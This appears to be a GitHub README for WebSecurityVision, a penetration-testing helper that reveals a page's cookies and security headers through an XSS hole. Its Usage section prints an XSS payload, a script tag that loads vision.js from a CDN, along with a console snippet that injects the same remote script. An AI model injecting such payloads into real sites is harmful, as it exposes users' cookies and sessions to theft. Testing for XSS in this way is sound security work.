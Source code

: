 # WebSecurityVision

WebSecurityVision is a tool for checking XSS vulnerability in the Pentest process, by calling it on the page, if the site has XSS vulnerability and the security headers are not set correctly, the browser information, including cookies and headers related to the cyber security space shows.

<p align="center">
    ![Screenshot](https://github.com/TheWation/WebSecurityVision/blob/master/github/screenshot.png?raw=true)
</p>

## Usage

To use, enter the following code through the vulnerable section or enter the page through the Developer Console section.

Vulnerable Input:

```javascript
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js></SCRIPT>
```

Inspect Element:

```javascript
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'https://cdn.jsdelivr.net/gh/TheWation/WebSecurityVision/vision.js';
document.head.appendChild(script);
```

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.